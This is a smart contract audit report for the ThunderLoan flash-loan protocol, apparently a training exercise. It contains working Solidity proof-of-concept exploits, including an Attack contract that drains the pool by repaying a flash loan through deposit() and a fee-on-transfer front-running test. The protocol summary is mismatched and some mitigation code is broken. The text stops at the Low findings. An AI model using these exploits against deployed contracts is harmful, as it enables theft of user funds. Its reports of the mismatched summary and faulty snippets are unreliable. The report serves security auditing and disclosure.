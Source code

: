 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>
<div class="full-page">
    <img src="./logo.png" alt="Logo">
    <div>
    <h1> ThunderLoan Audit Report</h1>
    <h3>Version 0.1</h2>
    <h3>Riiz0</h3>
    <h4>Date: June 6, 2024</h4>
    </div>
</div>

</body>
</html>

<!-- Your report starts here! -->
# ThunderLoan Audit Report

Prepared by:
- Shawn Rizo

Lead Auditor(s):
- Shawn Rizo

Assisting Auditors:
- [Cyfin CodeHawks](https://github.com/Cyfrin/6-thunder-loan-audit/blob/audit-data/audit-data/CodeHawksThunderLoan.md)

<div style="page-break-after: always;"></div>

# Table of Contents
- [ThunderLoan Audit Report](#thunderloan-audit-report)
- [Table of Contents](#table-of-contents)
- [About Shawn Rizo](#about-shawn-rizo)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
- [Protocol Summary](#protocol-summary)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High](#high)
    - [\[H-1\] Mixing up variable location causes storage collisions in `ThunderLoan::s_flashLoanFee` and `ThunderLoan::s_currentlyFlashLoaning`](#h-1-mixing-up-variable-location-causes-storage-collisions-in-thunderloans_flashloanfee-and-thunderloans_currentlyflashloaning)
    - [\[H-2\] Unnecessary `updateExchangeRate` in `deposit` function incorrectly updates `exchangeRate` preventing withdraws and unfairly changing reward distribution](#h-2-unnecessary-updateexchangerate-in-deposit-function-incorrectly-updates-exchangerate-preventing-withdraws-and-unfairly-changing-reward-distribution)
    - [\[H-3\] By calling a flashloan and then `ThunderLoan::deposit` instead of `ThunderLoan::repay` users can steal all funds from the protocol](#h-3-by-calling-a-flashloan-and-then-thunderloandeposit-instead-of-thunderloanrepay-users-can-steal-all-funds-from-the-protocol)
  - [Medium](#medium)
    - [\[M-1\] Centralization risk for trusted owners](#m-1-centralization-risk-for-trusted-owners)
    - [\[M-2\] Using TSwap as price oracle leads to price and oracle manipulation attacks](#m-2-using-tswap-as-price-oracle-leads-to-price-and-oracle-manipulation-attacks)
    - [\[M-3\] `ThunderLoan::setAllowedToken` can permanently lock liquidity providers out from redeeming their tokens](#m-3-thunderloansetallowedtoken-can-permanently-lock-liquidity-providers-out-from-redeeming-their-tokens)
    - [\[M-4\] `ThunderLoan:: deposit` is not compatible with Fee tokens and could be exploited by draining other users funds, Making Other user Looses there deposit and yield](#m-4-thunderloan-deposit-is-not-compatible-with-fee-tokens-and-could-be-exploited-by-draining-other-users-funds-making-other-user-looses-there-deposit-and-yield)
  - [Low](#low)
    - [\[L-1\] Initializers could be front-run](#l-1-initializers-could-be-front-run)
    - [\[L-2\] Missing critial event emissions](#l-2-missing-critial-event-emissions)
    - [\[L-3\] getCalculatedFee can be 0](#l-3-getcalculatedfee-can-be-0)
    - [\[L-4\] Mathematic Operations Handled Without Precision in getCalculatedFee() Function in ThunderLoan.sol](#l-4-mathematic-operations-handled-without-precision-in-getcalculatedfee-function-in-thunderloansol)
  - [Informational](#informational)
    - [\[I-1\] Empty Function Body - Consider commenting why](#i-1-empty-function-body---consider-commenting-why)
    - [\[I-2\] Poor Test Coverage](#i-2-poor-test-coverage)
    - [\[I-3\] Not using `__gap[50]` for future storage collision mitigation](#i-3-not-using-__gap50-for-future-storage-collision-mitigation)
    - [\[I-4\] Different decimals may cause confusion](#i-4-different-decimals-may-cause-confusion)
    - [\[I-5\] Doesn't follow https://eips.ethereum.org/EIPS/eip-3156](#i-5-doesnt-follow-httpseipsethereumorgeipseip-3156)
  - [Gas](#gas)
    - [\[GAS-1\] Using bools for storage incurs overhead](#gas-1-using-bools-for-storage-incurs-overhead)
    - [\[GAS-2\] Using `private` rather than `public` for constants, saves gas](#gas-2-using-private-rather-than-public-for-constants-saves-gas)
    - [\[GAS-3\] Unnecessary SLOAD when logging new exchange rate](#gas-3-unnecessary-sload-when-logging-new-exchange-rate)

<div style="page-break-after: always;"></div>

# About Shawn Rizo

I am a seasoned Smart Contract Engineer, adept at utilizing agile methodologies to deliver comprehensive insights and high-level overviews of blockchain projects. Specialized in developing and deploying decentralized applications (DApps) on Ethereum and EVM compatible chains. Expertise in Solidity, and security auditing, leading to a significant reduction in vulnerabilities through the strategic use of Foundry and Security Tools like Slither and Aderyn.

# Disclaimer

The Riiz0 team makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details 

The findings described in this document correspond the following commit hash:
```
026da6e73fde0dd0a650d623d0411547e3188909
```

## Scope 

```
#-- interfaces
|   #-- IFlashLoanReceiver.sol
|   #-- IPoolFactory.sol
|   #-- ITSwapPool.sol
|   #-- IThunderLoan.sol
```

<div style="page-break-after: always;"></div>

```
#-- protocol
|   #-- AssetToken.sol
|   #-- OracleUpgradeable.sol
|   #-- ThunderLoan.sol
#-- upgradedProtocol
    #-- ThunderLoanUpgraded.sol
```

# Protocol Summary 

Puppy Rafle is a protocol dedicated to raffling off puppy NFTs with variying rarities. A portion of entrance fees go to the winner, and a fee is taken by another address decided by the protocol owner.

## Roles

- Owner: The owner of the protocol who has the power to upgrade the implementation.
- Liquidity Provider: A user who deposits assets into the protocol to earn interest.
- User: A user who takes out flash loans from the protocol.

# Executive Summary
## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 3                      |
| Medium   | 4                      |
| Low      | 4                      |
| Info     | 5                      |
| Gas      | 3                      |
| Total    | 19                     |

# Findings
## High
### [H-1] Mixing up variable location causes storage collisions in `ThunderLoan::s_flashLoanFee` and `ThunderLoan::s_currentlyFlashLoaning`

**Description:** `ThunderLoan.sol` has two variables in the following order: However, the expected upgraded contract ThunderLoanUpgraded.sol has them in a different order.
<div style="page-break-after: always;"></div>

```
    uint256 private s_feePrecision;
    uint256 private s_flashLoanFee; // 0.3% ETH fee
```

```
    uint256 private s_flashLoanFee; // 0.3% ETH fee
    uint256 public constant FEE_PRECISION = 1e18;
```

Due to how Solidity storage works, after the upgrade, the s_flashLoanFee will have the value of s_feePrecision. You cannot adjust the positions of storage variables when working with upgradeable contracts.

**Impact:** After upgrade, the s_flashLoanFee will have the value of s_feePrecision. This means that users who take out flash loans right after an upgrade will be charged the wrong fee. Additionally the s_currentlyFlashLoaning mapping will start on the wrong storage slot.

**Proof of Concept:**

<details>
<summary>Code</summary>
Add the following code to the `ThunderLoanTest.t.sol` file. 

```javascript
// You'll need to import `ThunderLoanUpgraded` as well
import { ThunderLoanUpgraded } from "../../src/upgradedProtocol/ThunderLoanUpgraded.sol";

function testUpgradeBreaks() public {
        uint256 feeBeforeUpgrade = thunderLoan.getFee();
        vm.startPrank(thunderLoan.owner());
        ThunderLoanUpgraded upgraded = new ThunderLoanUpgraded();
        thunderLoan.upgradeTo(address(upgraded));
        uint256 feeAfterUpgrade = thunderLoan.getFee();

        assert(feeBeforeUpgrade != feeAfterUpgrade);
    }
```
</details>

You can also see the storage layout difference by running `forge inspect ThunderLoan storage` and `forge inspect ThunderLoanUpgraded storage`

**Recommended Mitigation:** Do not switch the positions of the storage variables on upgrade, and leave a blank if you're going to replace a storage variable with a constant. In `ThunderLoanUpgraded.sol`:

```diff
-    uint256 private s_flashLoanFee; // 0.3% ETH fee
-    uint256 public constant FEE_PRECISION = 1e18;
+    uint256 private s_blank;
+    uint256 private s_flashLoanFee; 
+    uint256 public constant FEE_PRECISION = 1e18;
```

### [H-2] Unnecessary `updateExchangeRate` in `deposit` function incorrectly updates `exchangeRate` preventing withdraws and unfairly changing reward distribution

**Description:** In the ThunderLoan system, the `exchangeRate` is responsible for calculating the exchange rate between assetTokens and underlying tokens. In a way, it's responsible for keeping track of how many fees to give to liquidity providers.

However, the `deposit` function, updates this rate, without collecting any fees! This update should be removed.

```javascript
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
        //@audit-high
@>      uint256 calculatedFee = getCalculatedFee(token, amount);
@>      assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

**Impact:** There are several impacts to this bug.

1. The `redeem` function is blocked, because the protocol thinks the owed tokens is more than it has.
2. Rewards are incorrectly calculated, leading to liquidity providers potentially getting may more or less than deserved.

**Proof of Concept:**

1. LP Deposits
2. User takes out a flash loan
3. It is now impossible for LP to redeem.

<details>
<summary>Proof of Code</summary>

Place the following into `ThunderLoanTest.t.sol`

```javascript
    function testReedemAfterLoan() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);

        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
```
<div style="page-break-after: always;"></div>

```javascript
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();

        uint256 amountToRedeem = type(uint256).max;
        vm.startPrank(liquidityProvider);
        thunderLoan.redeem(tokenA, amountToRedeem);
        vm.stopPrank();
    }
```
</details>

**Recommended Mitigation:** Remove the incorrectly updated exchange rate linees from `deposit`.

```diff
    function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
        //@audit-high
-       uint256 calculatedFee = getCalculatedFee(token, amount);
-       assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

### [H-3] By calling a flashloan and then `ThunderLoan::deposit` instead of `ThunderLoan::repay` users can steal all funds from the protocol

**Description:** The `flashloan()` performs a crucial balance check to ensure that the ending balance, after the flash loan, exceeds the initial balance, accounting for any borrower fees. This verification is achieved by comparing endingBalance with startingBalance + fee. However, a vulnerability emerges when calculating endingBalance using `token.balanceOf(address(assetToken))`.

Exploiting this vulnerability, an attacker can return the flash loan using the `deposit()` instead of `repay()`. This action allows the attacker to mint AssetToken and subsequently redeem it using `redeem()`. What makes this possible is the apparent increase in the Asset contract's balance, even though it resulted from the use of the incorrect function. Consequently, the flash loan doesn't trigger a revert.

**Impact:** All the funds of the AssetContract can be stolen. An attacker can acquire a flash loan and deposit funds directly into the contract using the `deposit()`, enabling stealing all the funds.

**Proof of Concept:** To execute the test successfully, please complete the following steps:

1. Place the attack.sol file within the mocks folder.
2. Import the contract in ThunderLoanTest.t.sol.
3. Add testattack() function in ThunderLoanTest.t.sol.
4. Change the setUp() function in ThunderLoanTest.t.sol.

<details>
<summary>Proof of Code</summary>

```javascript
import { Attack } from "../mocks/attack.sol";
```
```javascript
function testattack() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        vm.startPrank(user);
        tokenA.mint(address(attack), AMOUNT);
        thunderLoan.flashloan(address(attack), tokenA, amountToBorrow, "");
        attack.sendAssetToken(address(thunderLoan.getAssetFromToken(tokenA)));
        thunderLoan.redeem(tokenA, type(uint256).max);
        vm.stopPrank();

        assertLt(tokenA.balanceOf(address(thunderLoan.getAssetFromToken(tokenA))), DEPOSIT_AMOUNT);   
    }
```
```javascript
function setUp() public override {
        super.setUp();
        vm.prank(user);
        mockFlashLoanReceiver = new MockFlashLoanReceiver(address(thunderLoan));
        vm.prank(user);
        attack = new Attack(address(thunderLoan));   
    }
```

attack.sol

```javascript
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import { SafeERC20 } from "@openzeppelin/contracts/token/ERC20/utils/SafeERC20.sol";
import { IFlashLoanReceiver } from "../../src/interfaces/IFlashLoanReceiver.sol";

interface IThunderLoan {
    function repay(address token, uint256 amount) external;
```
<div style="page-break-after: always;"></div>

```javascript
    function deposit(IERC20 token, uint256 amount) external;
    function getAssetFromToken(IERC20 token) external;
}


contract Attack {
    error MockFlashLoanReceiver__onlyOwner();
    error MockFlashLoanReceiver__onlyThunderLoan();

    using SafeERC20 for IERC20;

    address s_owner;
    address s_thunderLoan;
    uint256 s_balanceDuringFlashLoan;
    uint256 s_balanceAfterFlashLoan;

    constructor(address thunderLoan) {
        s_owner = msg.sender;
        s_thunderLoan = thunderLoan;
        s_balanceDuringFlashLoan = 0;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address initiator,
        bytes calldata /*  params */
    )
        external
        returns (bool)
    {
        s_balanceDuringFlashLoan = IERC20(token).balanceOf(address(this));
        
        if (initiator != s_owner) {
            revert MockFlashLoanReceiver__onlyOwner();
        }
        
        if (msg.sender != s_thunderLoan) {
            revert MockFlashLoanReceiver__onlyThunderLoan();
        }
        IERC20(token).approve(s_thunderLoan, amount + fee);
        IThunderLoan(s_thunderLoan).deposit(IERC20(token), amount + fee);
        s_balanceAfterFlashLoan = IERC20(token).balanceOf(address(this));
        return true;
    }

    function getbalanceDuring() external view returns (uint256) {
        return s_balanceDuringFlashLoan;
    }
```
<div style="page-break-after: always;"></div>

```javascript
    function getBalanceAfter() external view returns (uint256) {
        return s_balanceAfterFlashLoan;
    }

    function sendAssetToken(address assetToken) public {
        
        IERC20(assetToken).transfer(msg.sender, IERC20(assetToken).balanceOf(address(this)));
    }
}
```

Notice that the `assetLt()` checks whether the balance of the `AssetToken` contract is less than the `DEPOSIT_AMOUNT`, which represents the initial balance. The contract balance should never decrease after a flash loan, it should always be higher.
</details>

**Recommended Mitigation:** Add a check in `deposit()` to make it impossible to use it in the same block of the flash loan. For example registering the block.number in a variable in `flashloan()` and checking it in `deposit()`.


## Medium
### [M-1] Centralization risk for trusted owners


**Impact:** Contracts have owners with privileged rights to perform admin tasks and need to be trusted to not perform malicious updates or drain funds.

*Instances (2)*:
```javascript
File: src/protocol/ThunderLoan.sol

223:     function setAllowedToken(IERC20 token, bool allowed) external onlyOwner returns (AssetToken) {

261:     function _authorizeUpgrade(address newImplementation) internal override onlyOwner { }
```

**Recommended Mitigation:** Instead of Owner contracts use AccessControls, or combine Owner access with MultiSig Wallet to confirm and deny transactions - In this case upgrading contracts.

### [M-2] Using TSwap as price oracle leads to price and oracle manipulation attacks

**Description:** The TSwap protocol is a constant product formula based AMM (automated market maker). The price of a token is determined by how many reserves are on either side of the pool. Because of this, it is easy for malicious users to manipulate the price of a token by buying or selling a large amount of the token in the same transaction, essentially ignoring protocol fees. 

**Impact:** Liquidity providers will drastically reduced fees for providing liquidity. 

**Proof of Concept:** 

The following all happens in 1 transaction. 

1. User takes a flash loan from `ThunderLoan` for 1000 `tokenA`. They are charged the original fee `fee1`. During the flash loan, they do the following:
   1. User sells 1000 `tokenA`, tanking the price. 
   2. Instead of repaying right away, the user takes out another flash loan for another 1000 `tokenA`. 
      1. Due to the fact that the way `ThunderLoan` calculates price based on the `TSwapPool` this second flash loan is substantially cheaper. 
```javascript
    function getPriceInWeth(address token) public view returns (uint256) {
        address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
@>      return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
    }
```
    3. The user then repays the first flash loan, and then repays the second flash loan.

I have created a proof of code located in my `audit-data` folder. It is too large to include here. 

**Recommended Mitigation:** Consider using a different price oracle mechanism, like a Chainlink price feed with a Uniswap TWAP fallback oracle. 

### [M-3] `ThunderLoan::setAllowedToken` can permanently lock liquidity providers out from redeeming their tokens

**Description:** If the 'ThunderLoan::setAllowedToken' function is called with the intention of setting an allowed token to false and thus deleting the assetToken to token mapping; nobody would be able to redeem funds of that token in the 'ThunderLoan::redeem' function and thus have them locked away without access.

**Impact:** If the owner sets an allowed token to false, this deletes the mapping of the asset token to that ERC20. If this is done, and a liquidity provider has already deposited ERC20 tokens of that type, then the liquidity provider will not be able to redeem them in the 'ThunderLoan::redeem' function. 

```javascript
     function setAllowedToken(IERC20 token, bool allowed) external onlyOwner returns (AssetToken) {
        if (allowed) {
            if (address(s_tokenToAssetToken[token]) != address(0)) {
                revert ThunderLoan__AlreadyAllowed();
            }
            string memory name = string.concat("ThunderLoan ", IERC20Metadata(address(token)).name());
```
<div style="page-break-after: always;"></div>
\
```javascript
            string memory symbol = string.concat("tl", IERC20Metadata(address(token)).symbol());
            AssetToken assetToken = new AssetToken(address(this), token, name, symbol);
            s_tokenToAssetToken[token] = assetToken;
            emit AllowedTokenSet(token, assetToken, allowed);
            return assetToken;
        } else {
            AssetToken assetToken = s_tokenToAssetToken[token];
@>          delete s_tokenToAssetToken[token];
            emit AllowedTokenSet(token, assetToken, allowed);
            return assetToken;
        }
    }
```

```javascript
     function redeem(
        IERC20 token,
        uint256 amountOfAssetToken
    )
        external
        revertIfZero(amountOfAssetToken)
@>      revertIfNotAllowedToken(token)
    {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        if (amountOfAssetToken == type(uint256).max) {
            amountOfAssetToken = assetToken.balanceOf(msg.sender);
        }
        uint256 amountUnderlying = (amountOfAssetToken * exchangeRate) / assetToken.EXCHANGE_RATE_PRECISION();
        emit Redeemed(msg.sender, token, amountOfAssetToken, amountUnderlying);
        assetToken.burn(msg.sender, amountOfAssetToken);
        assetToken.transferUnderlyingTo(msg.sender, amountUnderlying);
    }
```

**Proof of Concept:** The below test passes with a ThunderLoan__NotAllowedToken error. Proving that a liquidity provider cannot redeem their deposited tokens if the setAllowedToken is set to false, Locking them out of their tokens.

```javascript
     function testCannotRedeemNonAllowedTokenAfterDepositingToken() public {
        vm.prank(thunderLoan.owner());
        AssetToken assetToken = thunderLoan.setAllowedToken(tokenA, true);

        tokenA.mint(liquidityProvider, AMOUNT);
        vm.startPrank(liquidityProvider);
        tokenA.approve(address(thunderLoan), AMOUNT);
        thunderLoan.deposit(tokenA, AMOUNT);
        vm.stopPrank();

        vm.prank(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, false);

        vm.expectRevert(abi.encodeWithSelector(ThunderLoan.ThunderLoan__NotAllowedToken.selector, address(tokenA)));
```
<div style="page-break-after: always;"></div>

```javascript
        vm.startPrank(liquidityProvider);
        thunderLoan.redeem(tokenA, AMOUNT_LESS);
        vm.stopPrank();
    }
```

**Recommended Mitigation:** It would be suggested to add a check if that assetToken holds any balance of the ERC20, if so, then you cannot remove the mapping.

```diff
     function setAllowedToken(IERC20 token, bool allowed) external onlyOwner returns (AssetToken) {
        if (allowed) {
            if (address(s_tokenToAssetToken[token]) != address(0)) {
                revert ThunderLoan__AlreadyAllowed();
            }
            string memory name = string.concat("ThunderLoan ", IERC20Metadata(address(token)).name());
            string memory symbol = string.concat("tl", IERC20Metadata(address(token)).symbol());
            AssetToken assetToken = new AssetToken(address(this), token, name, symbol);
            s_tokenToAssetToken[token] = assetToken;
            emit AllowedTokenSet(token, assetToken, allowed);
            return assetToken;
        } else {
            AssetToken assetToken = s_tokenToAssetToken[token];
+           uint256 hasTokenBalance = IERC20(token).balanceOf(address(assetToken));
+           if (hasTokenBalance == 0) {
                delete s_tokenToAssetToken[token];
                emit AllowedTokenSet(token, assetToken, allowed);
+           }
            return assetToken;
        }
    }
```

### [M-4] `ThunderLoan:: deposit` is not compatible with Fee tokens and could be exploited by draining other users funds, Making Other user Looses there deposit and yield

**Description:** `deposit` function do not account the amount for fee tokens, which leads to minting more Asset tokens. These tokens can be used to claim more tokens of underlying asset then it's supposed to be.

**Impact:** Some ERC20 tokens have fees implemented like autoLP Fee, marketing fee etc. So when someone send say 100 tokens and fees 0.3%, then receiver will get only 99.7 tokens.

`Deposit` function mint the tokens that user has inputted in the params and mint the same amount of Asset token.
<div style="page-break-after: always;"></div>

```javascript
function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
   @>   uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
        uint256 calculatedFee = getCalculatedFee(token, amount);
        assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

As you can see in highlighted line, It calculates the token amount based on `amount` rather actual token amount received by the contract. If any fees token is supplied to contract, then `redeem` function will revert (due to insufficient funds) or if there are multiple users who supplied this token, then some users won't be able to withdraw there underlying token ever.

**Proof of Concept:** Token like `STA` and `PAXG` has fees on every transfer which means token receiver will receive less token amount than the amount being sent. Let's consider example of `STA` here which has 1% fees on every transfer. When user put 100 tokens as input, then contract will receive only 99 tokens, as 1% being goes to burn address (as per STA token contract design). User will be getting Asset token amount based on input amount.

```javascript
 uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
```

`Alice` initiate a transaction to call `deposit` with 1 million `STA`. `Attacker` notice the transaction and `deposit` 2 million `STA` before him. So contract will be receive 990,000 tokens from `Alice` and 198000 tokens from attacker.

Now attacker call withdraw the `STA` token using all Asset tokens amount he received while depositing. Attacker get's  1% more than he supposed to be, As fee is deducted from contract. Alice won't be able to claim her underlying amount that she supposed to be. It make more sense for attacker to call it, as token fee is being accrued to him. 

Here is given example in foundry where we set asset token which has 1% fees.
in `BaseTest.t.sol`
we import custom erc20 for underlying token creation which has 1% fees on transfers.

`CUSTOM MOCK TOKEN`

<details>
<summary>Proof of Code</summary>

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
```
<div style="page-break-after: always;"></div>

```javascript
import {ERC20} from "../token/ERC20/ERC20.sol";

contract CustomERC20Mock is ERC20 {
    constructor() ERC20("ERC20Mock", "E20M") {}

    function mint(address account, uint256 amount) external {
        _mint(account, amount);
    }

    function burn(address account, uint256 amount) external {
        _burn(account, amount);
    }

    function _transfer(address from, address to, uint256 amount) internal override {
        _burn(from, amount/100);
        super._transfer(from, to, amount - (amount/100));
    }
}
```

updated `BaseTest.t.sol` file
```diff
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

  import { Test, console } from "forge-std/Test.sol";
  import { ThunderLoan } from "../../src/protocol/ThunderLoan.sol";
  import { ERC20Mock } from "@openzeppelin/contracts/mocks/ERC20Mock.sol";
  import { MockTSwapPool } from "../mocks/MockTSwapPool.sol";
  import { MockPoolFactory } from "../mocks/MockPoolFactory.sol";
+ import { CustomERC20Mock } from "../mocks/CustomERC20Mock.sol";
  import { ERC1967Proxy } from "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";

contract BaseTest is Test {
    ThunderLoan thunderLoanImplementation;
    MockPoolFactory mockPoolFactory;
    ERC1967Proxy proxy;
    ThunderLoan thunderLoan;

    ERC20Mock weth;
-   ERC20Mock tokenA;
+   CustomERC20Mock tokenA;

    function setUp() public virtual {
        thunderLoan = new ThunderLoan();
        mockPoolFactory = new MockPoolFactory();

```
<div style="page-break-after: always;"></div>

```diff
        weth = new ERC20Mock();
-       tokenA = new ERC20Mock();
+       tokenA = new CustomERC20Mock();

        mockPoolFactory.createPool(address(tokenA));
        proxy = new ERC1967Proxy(address(thunderLoan), "");
        thunderLoan = ThunderLoan(address(proxy));
        thunderLoan.initialize(address(mockPoolFactory));
    }
}
```


```javascript
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import { Test, console2 } from "forge-std/Test.sol";
import { BaseTest, ThunderLoan } from "./BaseTest.t.sol";
import { AssetToken } from "../../src/protocol/AssetToken.sol";
import { MockFlashLoanReceiver } from "../mocks/MockFlashLoanReceiver.sol";

contract ThunderLoanTest is BaseTest {
    uint256 constant ALICE_AMOUNT = 1e7 * 1e18;
    uint256 constant ATTACKER_AMOUNT = 2e7 * 1e18;
    address attacker = address(789);
    address alice = address(0x123);
    MockFlashLoanReceiver mockFlashLoanReceiver;

    function setUp() public override {
        super.setUp();
        vm.prank(user);
        mockFlashLoanReceiver = new MockFlashLoanReceiver(address(thunderLoan));
    }

function testAttackerGettingMoreTokens() public setAllowedToken {
        tokenA.mint(attacker, ATTACKER_AMOUNT);
        tokenA.mint(alice, ALICE_AMOUNT);
        vm.startPrank(attacker);
        tokenA.approve(address(thunderLoan), ATTACKER_AMOUNT);
        /// First deposit in contract by attacker
        thunderLoan.deposit(tokenA, ATTACKER_AMOUNT);
        vm.stopPrank();
        AssetToken asset = thunderLoan.getAssetFromToken(tokenA);
        uint256 contractBalanceAfterAttackerDeposit = tokenA.balanceOf(address(asset));
        uint256 difference = ATTACKER_AMOUNT - contractBalanceAfterAttackerDeposit;
        uint256 attackerAssetTokenBalance = asset.balanceOf(attacker);
```
<div style="page-break-after: always;"></div>

```javascript
        console2.log(contractBalanceAfterAttackerDeposit, "Contract balance of token A after first deposit"); 
        console2.log(attackerAssetTokenBalance, "attacker balance of asset token");
        console2.log(difference, "difference b/w actual amount and deposited amount"); 

        
        vm.startPrank(alice);
        tokenA.approve(address(thunderLoan), ALICE_AMOUNT);
        thunderLoan.deposit(tokenA, ALICE_AMOUNT);
        vm.stopPrank();
        uint256 actualAmountDepositedByUser = tokenA.balanceOf(address(asset)) - contractBalanceAfterAttackerDeposit;
        console2.log(ALICE_AMOUNT, "Actual input by alice");
        console2.log(actualAmountDepositedByUser, "Actual balance Deposited by Alice"); 
        console2.log(tokenA.balanceOf(address(asset)), "thunderloan balance of Token A after Alice deposit");
        console2.log(asset.balanceOf(alice), "Alice Asset Token Balance");

        vm.startPrank(attacker);
        thunderLoan.redeem(tokenA, asset.balanceOf(attacker));
        console2.log(tokenA.balanceOf(attacker), "AttackerBalance"); // how much token he claimed
        vm.stopPrank();

        /// if alice try to claim her underlying tokens now, tx will fail as contract
        /// don't have enough funds

        vm.startPrank(alice);
        uint256 amountToClaim = asset.balanceOf(alice);
        vm.expectRevert(); 
        thunderLoan.redeem(tokenA, amountToClaim);
        vm.stopPrank();       

    }
}
```

run the following command in terminal `forge test --match-test testAttackerGettingMoreTokens() -vv`
it will return something like this-

```javascript
[⠒] Compiling...
[⠊] Compiling 1 files with 0.8.20
[⠒] Solc 0.8.20 finished in 1.94s
Compiler run successful!
```
<div style="page-break-after: always;"></div>

```javascript
Running 1 test for test/unit/ThunderLoanTest.t.sol:ThunderLoanTest
[PASS] testAttackerGettingMoreTokens() (gas: 1265386)
Logs:
  19800000000000000000000000 Contract balance of token A after first deposit
  20000000000000000000000000 attacker balance of asset token
  200000000000000000000000 difference b/w actual amount and deposited amount
  10000000000000000000000000 Actual input by alice
  9900000000000000000000000 Actual balance Deposited by Alice
  29700000000000000000000000 thunderloan balance of Token A after Alice deposit
  9970089730807577268195413 Alice Asset Token Balance
  19879279219760479041600000 AttackerBalance
```
</details>

**Recommended Mitigation:** Either Do not use fee tokens or implement correct accounting by checking the received balance and use that value for calculation.

```javascript
uint256 amountBefore = IERC20(token).balanceOf(address(this));
token.safeTransferFrom(msg.sender, address(assetToken), amount);
uint256 amountAfter = IERC20(token).balanceOf(address(this));
uint256 amount = AmountAfter - amountBefore;
```

deposit function can be written like this.
```diff
function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
+       uint256 amountBefore = IERC20(token).balanceOf(address(this));
+       token.safeTransferFrom(msg.sender, address(assetToken), amount);
+       uint256 amountAfter = IERC20(token).balanceOf(address(this));
+       uint256 amount = AmountAfter - amountBefore;
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
        uint256 calculatedFee = getCalculatedFee(token, amount);
-       assetToken.updateExchangeRate(calculatedFee);
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```


## Low 
### [L-1] Initializers could be front-run
Initializers could be front-run, allowing an attacker to either set their own values, take ownership of the contract, and in the best case forcing a re-deployment

*Instances (6)*:
```javascript
File: src/protocol/OracleUpgradeable.sol

